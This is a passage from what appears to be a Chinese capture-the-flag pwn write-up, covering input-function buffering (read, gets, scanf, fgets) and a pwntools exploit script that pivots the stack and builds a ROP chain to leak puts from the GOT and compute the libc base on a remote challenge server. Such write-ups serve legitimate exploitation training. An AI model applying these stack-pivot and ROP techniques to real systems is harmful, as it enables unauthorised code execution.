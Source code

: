 ③当 count 字节数小于你所输入的字节数，那么没有输入进指定地址的内容，都会停留在输入缓冲区，有可能会影响之的输入。

**但值得一提的是使用 read 函数，我们可以用 send 来发送数据，这样就可以确保万无一失**。

**如果是 gets 函数或者 scanf 函数**，我们没有办法选择，**只能使用 sendline**，这两种函数只有遇见 sendline 发送的回车，才会停止读入。

**gets 函数会清空缓冲区里的回车，而 scanf 则不会清空回车。因此 scanf 可能会因为没有清空回车的缘故，对之后的程序输入可能造成影响，但是如果 gets 函数溢出了数组限制的话，会异常的在输入的字符串结尾填上一个 00 存入栈中。此时的 00 也有可能会覆盖原本栈中的数据**，另外就是遇见 fgets 的话，也是没的选，只能用 sendline

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26741)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

bank=0x0000000000601080
leave_ret=0x0000000000400699
main=elf.symbols['main']
leak('main',main)
rdi_addr=0x0000000000400703
rsi_addr=0x0000000000400701
puts_got=0x0000000000601018
ret_addr=0x000000000040069A

puts_plt=0x00000000004004E0
leak('puts_plt',puts_plt)
ru("Welcome to Stack bank,Tell me what you want\n")
pl = 'a'*0x60+p64(bank+0xd0)+p64(leave_ret)
s(pl)
#dbg()
ru("Done!You can check and use your borrow stack now!\n")
pl2='a'*0xd0+p64(0)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl2)
puts=uu64(r(6))
leak('puts',puts)

libc_base=puts-libc.symbols['puts']
```